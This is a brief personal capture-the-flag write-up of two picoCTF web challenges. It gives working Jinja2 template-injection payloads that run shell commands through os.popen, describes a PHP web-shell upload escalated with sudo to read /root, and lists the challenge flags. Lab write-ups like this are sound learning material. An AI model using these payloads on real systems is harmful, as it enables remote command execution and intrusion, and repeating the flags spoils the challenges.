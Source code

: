 # Pico-CTF

CTF #1
The first CTF that I did on the pico site is the SSTI1 CTF.

The description of the ctf is:
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.
The first hint is:
Server Side Template Injection

The main bulk of this ctf is injecting commands into a notification line on a hosted website that has little security. 
Using Jinja2 there the command {{config.items()}} allows you to see configuration data, one thing revealed is ('SECRET_KEY', None),

The following remote injection will show globals within the directory of the server.
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}

Using this shows a file called flagrequirements.txt

The following injection will read the previous file giving the flag.
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}

The flag is: picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

CTF #2
The second CTF that I did is n0s4n1ty 1.

The description of the ctf is:
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
Additional details will be available after launching your challenge instance.
The hints are:
File upload was not sanitized
Whenever you get a shell on a remote machine, check sudo -l

The main point of this ctf is inputing a php shell to the server which unloads a script that the hacker writes instead of a profile picture.
Using scripts you can check the permissions of the user and can find out that there is no password to access the root. 
The following url will lead to the final ctf as the root user:
http://standard-pizzas.picoctf.net:63914/uploads/shell.php?cmd=sudo cat /root/flag.txt

The flag is: picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7

Kevin Montes :D

